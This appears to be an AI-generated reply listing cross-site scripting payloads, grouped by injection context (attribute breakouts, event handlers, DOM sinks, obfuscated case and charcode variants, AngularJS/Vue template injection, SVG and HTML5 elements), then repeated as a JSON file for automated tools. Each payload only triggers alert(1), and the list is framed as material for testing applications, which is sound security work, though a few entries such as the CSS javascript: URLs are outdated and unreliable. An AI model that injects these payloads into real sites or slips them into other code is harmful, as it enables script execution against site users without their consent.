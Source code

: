Here’s a comprehensive list of all major types of XSS payloads, categorized by context and attack method. These are useful for testing applications for XSS vulnerabilities in different areas:


---

1. Basic Payloads

```html

<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<body onload=alert(1)>
<video><source onerror="alert(1)">

```

---

2. Attribute Injection

```html
"><img src=x onerror=alert(1)>
"><input onfocus=alert(1) autofocus>
"><div onmouseover=alert(1)>hover me</div>
"><a href="javascript:alert(1)">click</a>

```

---

3. DOM-based XSS

```html
// URL: http://example.com/#<script>alert(1)</script>
document.location.hash
document.URL
document.write(untrusted_input)
location.href

Payload example for DOM sink:

<script>document.write(location.hash)</script>
```


---

4. Event Handler Payloads

```html
<svg onload=alert(1)>
<marquee onstart=alert(1)>
<math href="javascript:alert(1)">
<button onclick=alert(1)>Click</button>
<details open ontoggle=alert(1)>
```


---

5. Obfuscated Payloads

```html
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg oNLoAd=alert(1)>
```


---

6. Inline JavaScript Context

```html
" onerror="alert(1)
' onerror='alert(1)
"><script>alert(1)</script>
```


---

7. JavaScript URI Payloads

```html
<a href="javascript:alert(1)">Click</a>
<iframe src="javascript:alert(1)"></iframe>
```


---

8. JSON/JavaScript Injection

```html

{"name":"<script>alert(1)</script>"}

var data = "<img src=x onerror=alert(1)>";
```


---

9. CSS Injection (in rare cases)

```html
<style>@import 'javascript:alert(1)';</style>
<div style="background:url(javascript:alert(1))">
```


---

10. AngularJS/VueJS Context (Template Injection)

```html
{{constructor.constructor('alert(1)')()}}
{{alert(1)}}
```


---

11. Inline SVG Injection

```html
<svg><script>alert(1)</script></svg>
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
```


---

12. HTML5 Form Elements

```html
<keygen autofocus onfocus=alert(1)>
<meter value=100 min=0 max=200 onmouseover=alert(1)>
<progress value=100 max=200 onmouseover=alert(1)>
```

---

Would you like a downloadable list or JSON/CSV format for automation or tool integration?

```json
{
  "basic_payloads": [
    "<script>alert(1)</script>",
    "<svg onload=alert(1)>",
    "<img src=x onerror=alert(1)>",
    "<iframe src=\"javascript:alert(1)\"></iframe>",
    "<body onload=alert(1)>",
    "<video><source onerror=\"alert(1)\">"
  ],
  "attribute_injection": [
    "\"><img src=x onerror=alert(1)>",
    "\"><input onfocus=alert(1) autofocus>",
    "\"><div onmouseover=alert(1)>hover me</div>",
    "\"><a href=\"javascript:alert(1)\">click</a>"
  ],
  "dom_based_xss": [
    "<script>document.write(location.hash)</script>",
    "<script>document.write(document.URL)</script>"
  ],
  "event_handler_payloads": [
    "<svg onload=alert(1)>",
    "<marquee onstart=alert(1)>",
    "<math href=\"javascript:alert(1)\">",
    "<button onclick=alert(1)>Click</button>",
    "<details open ontoggle=alert(1)>"
  ],
  "obfuscated_payloads": [
    "<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>",
    "<IMG SRC=JaVaScRiPt:alert(1)>",
    "<svg oNLoAd=alert(1)>"
  ],
  "inline_javascript": [
    "\" onerror=\"alert(1)",
    "' onerror='alert(1)",
    "\"><script>alert(1)</script>"
  ],
  "javascript_uri": [
    "<a href=\"javascript:alert(1)\">Click</a>",
    "<iframe src=\"javascript:alert(1)\"></iframe>"
  ],
  "json_js_injection": [
    "{\"name\":\"<script>alert(1)</script>\"}",
    "var data = \"<img src=x onerror=alert(1)>\";"
  ],
  "css_injection": [
    "<style>@import 'javascript:alert(1)';</style>",
    "<div style=\"background:url(javascript:alert(1))\">"
  ],
  "angular_vue_template_injection": [
    "{{constructor.constructor('alert(1)')()}}",
    "{{alert(1)}}"
  ],
  "svg_injection": [
    "<svg><script>alert(1)</script></svg>",
    "<svg><a xlink:href=\"javascript:alert(1)\">CLICK</a></svg>"
  ],
  "html5_elements": [
    "<keygen autofocus onfocus=alert(1)>",
    "<meter value=100 min=0 max=200 onmouseover=alert(1)>",
    "<progress value=100 max=200 onmouseover=alert(1)>"
  ]
}
```
